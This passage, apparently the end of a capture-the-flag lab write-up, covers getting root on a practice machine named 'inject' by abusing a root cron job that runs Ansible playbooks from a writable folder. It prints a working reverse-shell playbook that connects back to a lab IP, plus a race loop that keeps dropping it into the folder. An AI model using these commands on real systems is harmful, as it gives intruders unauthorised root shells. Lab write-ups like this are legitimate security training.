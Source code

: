 I can run this as the `phil` user, but maybe there’s a way to escalate using ansible. One interesting detail is the `/opt/automation` directory is only world readable, while the `tasks` sub-directory is writeable. This seems like a clue.

A search for vulnerabilities didn’t turn up much. I ran `pspy` and found a `cron` task that was running and executing anything inside the `tasks` folder with a `.yml` extension:

```html
023/03/13 02:32:01 CMD: UID=0 PID=10396 | /bin/sh -c /usr/local/bin/ansible-parallel /opt/automation/tasks/*.yml
```

There was also a `cron` job that was erasing everything in the `tasks` directory and copying `playbook_1.yml` from the root directory after. I crafted a simple playbook to initiate a reverse shell (which should happen as root):

```html
- hosts: localhost
  tasks:
  - name: foo
    ansible.builtin.command: bash -c 'bash -i >& /dev/tcp/10.10.14.109/443 0>&1'
```

Then I ran a loop to copy this playbook into the `tasks` folder continuously, in case the windows between removing YAML files and executing them with ansible was too small:

```html
while true; do cp /tmp/.pb.yml /opt/automation/tasks/pb.yml; done
```

On my attacking system, I started a listener and sure enough, a root shell appeared 🙂

```html
root@inject:~$
```

## Conclusion

The hardest part about this box was fingerprinting the web server and finding a foothold. I spent too much time testing the LFI avenue. Going from LFI to the `/functionRouter` exploit was a lot of trial and error. Took a lot of turns, but it was a fun box.

